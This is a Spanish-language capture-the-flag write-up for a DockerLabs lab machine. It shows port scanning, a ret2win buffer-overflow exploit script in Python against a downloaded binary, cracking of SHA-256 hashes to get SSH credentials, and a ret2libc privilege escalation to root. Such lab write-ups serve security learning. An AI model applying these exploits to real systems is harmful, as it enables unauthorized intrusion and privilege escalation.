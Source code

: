 nmap: 80,22,39817

![image](https://github.com/user-attachments/assets/54f701a3-20af-4648-99dc-0d7c5ec12fcf)

---
en la pagina aparece "esta pagina no puede ser hackeada"
y si entramos por el puerto 39817, 

nos aparece: contraseña: Denegado

![image](https://github.com/user-attachments/assets/2cf50a40-fba4-402c-aceb-34b2284bfa50)

si hacemos un gobuster no aparece:

     - app1

Nos descarga un binario
le damos los permisos y ejecutamos, ahora nos conectamos
> ./app1

![image](https://github.com/user-attachments/assets/8c5fdd84-6725-473a-91ad-857f3bc35f50)

en nuestra terminal conectamos:
 
    telnet 127.0.0.1 17562
    
 y nos pedirá escribir algo, y al colocar cualquier cosa se cerrara.

intentare probar si es posible un overflow generandolo:
seguimos los pasos: https://github.com/4bytess/pattern_generator

      -python3 patter.py -m generate -v 50

nos dio: a00a01a02a03a04a05a06a07a08a10a11a12a13a14a15a16a1

![image](https://github.com/user-attachments/assets/63783b1f-22e5-4991-bd51-40d7f774cfd9)

lanzaremos el mismo comando pero con 500 y volvemos a intentar saturar. 

![image](https://github.com/user-attachments/assets/9189ce59-2668-4361-9128-ad1a1f65dbba)

entonces se satura como vemos. 

ahora lanzamos: 

>  python3 pattern.py -m offset -v b14b15b1

nos da: offset: 282

![image](https://github.com/user-attachments/assets/fc51e1ca-1a08-46a5-bc3d-1ac1905f90e8)

lanzamos: 

     gdb -q app1 

y volvemos a lanzar los 500 que nos dio y nos dará un valor. 

![image](https://github.com/user-attachments/assets/f253c4f1-f245-4da0-9493-2f175e3ddc8f)

entonces nos da el valor: 0x000000000040142b
lanzamos ahí mismo un: ret
y nos dará: 0x3262363262353262

nos mostrara la seguridad que tiene el binario
y aparece: NX Enabled

Vemos que solo tiene NX. No tiene canarios ni PIE, es decir que podemos sobrescribir el stack pero no ejecutar shellcode en el stack. Además las direcciones del código del binario son estáticas, por lo que se puede hacer un buffer overflow de tipo ret2win, en donde sobrescribimos el EIP con la dirección de una función que existe en el binario que nunca se llama de por sí 

ahora abrimos otra vez

> gdb app1

y lanzamos: info functions

hay uno llamado "secret function", lo que intentare hacer un overflow hacia ese archivo en especifico.


entonces con el valor que obtuvimos lo pasamos al valor ASCII así: 

     echo "3262363262353262" | xxd -r -p

Nos queda el valor de: b25b26b2

![image](https://github.com/user-attachments/assets/f0f8a9be-cc40-4f26-b595-6dac831582b5)

ahora lanzamos:
> python3 pattern.py -m offset -v b25b26b2

nos da: offset: 312

![image](https://github.com/user-attachments/assets/2a7058d0-c8c1-4c10-8283-1946541d50d1)

ahora modificamos un código que vaya hacia la carpeta o archivo "secret function".

---
#!/usr/bin/python3

from pwn import p64
import socket


payload = b'A' * 312 + p64(0x00000000004011b6)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(("127.0.0.1", 17562))  # Dirección y puerto del servicio
    print("[+] Conexión establecida con el servicio")

    
banner = sock.recv(1024)
print(f"[+] Banner recibido: {banner.decode(errors='ignore')}")

sock.send(payload + b'\r\n')
print("[+] Payload enviado")

except ConnectionRefusedError:
    print("[-] No se pudo conectar al servicio. Verifica que el servicio está activo.")
except Exception as e:
    print(f"[-] Error: {e}")

finally:
    # Cerramos el socket
    sock.close()
    print("[+] Conexión cerrada")

---

lo lanzamos: python3 exploit.py y dejamos en escucha "./app1" 
al lanzarlo nos da:

>02e5e6ea15b5d3088af6edf49269a7221eb88dc32747420dc2e482110f649deb

![image](https://github.com/user-attachments/assets/b12a7c71-a153-4dde-be46-37327309e99d)

esta en sha256 ahora lo mandamos a: https://crackstation.net/
y nos da: tiggerjake

![image](https://github.com/user-attachments/assets/07eb2220-d717-4b07-b243-6e10487979b5)

ahora nos conectamos por el puerto 39817

telnet 172.17.0.2 39817 colocamos la contraseña y nos 

![image](https://github.com/user-attachments/assets/ee679082-53f3-4f06-951e-8d3c4150cb65)

lo pasamos otra vez por la pagina por el sha256 y nos da:

    plasticfloor17

![image](https://github.com/user-attachments/assets/01c22335-fb64-4a31-86eb-b6cf60b5d6d2)

entramos al usuario pepe por el puerto 22

![[dockerlabs/dificil/doubleflow/test14.png]]

vemos que dentro de pepe hay dos app mas

    - app2 y 3

igual que con el app1 solo tiene protección NX, o sea que no podemos ejecutar shellcodes
al listar las funciones que tiene definidas el binario, solo esta la función main, por lo que no se podría hacer un ret2win, pero al ejecutar ldd ./app3 en la maquina victima, vemos que la dirección base de libc.so.6 es siempre la misma. por lo que no hay ASLR. así que es mas fácil atacar a "ret2libc" o sea hacer un ataque buffer overflow y llamar la función "system()" y como parámetro "/bin/sh". 

lanzamos:
>readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep "system"

y nos da:
> 1023: 000000000004c490    45 FUNC    WEAK   DEFAULT   16 system@@GLIBC_2.2.5

para sacar el offset de la cadena "/bin/sh", ejecutamos:
> strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"

y nos da: 
>196031 /bin/sh

![[dockerlabs/dificil/doubleflow/test15.png]]

Ahora ya tenemos los offsets de system() y "/bin/sh". Pero si queremos pasar "/bin/sh" como parámetro a system() en el buffer overflow, tenemos que meter en el registro RDI un puntero a la cadena "/bin/sh" y para meter ese valor en RDI necesitamos encontrar dentro del binario app3 una instrucción pop rdi, para meter un valor del stack en el RDI. 

entonces nos pasamos el "app3" a nuestra terminal y probamos con gdb. 
entonces ejecutamos 

     gdb -q app3 

y les escribimos alguna letra para que de el mismo error:

![[dockerlabs/dificil/doubleflow/test16.png]]

nos dio: 

     0x0000000000401189
     0x4141414141414141

entonces queda ver que protección tiene, aqui se busca el valor de ASRL si se encuentra habilitado. 

![[dockerlabs/dificil/doubleflow/test17.png]]

contiene 0  o sea que esta deshabilitada. aunque contiene la NX activa que es lo mismo que la anterior. 

tomamos o creamos un código python que nos sirva como exploit.  y el código se basara para este código que nos entrega la app3

![[dockerlabs/dificil/doubleflow/test18.png]]


La dirección de retorno vale 0x3235613135613035. Para pasarlo a texto hacemos `unhex 3235613135613035 | rev`. que es cambiarlo a valor ASCII Sale que es 50a51a52. Entonces hacemos `pattern.py -m offset -v 50a51a52` y nos dice que el offset es 136.

entonces como nombre, tomaremos un código python o se creara uno ahora ejecutamos el exploit en la máquina víctima en el directorio /home/pepe:

![[dockerlabs/dificil/doubleflow/test19.png]]

y somos root! 
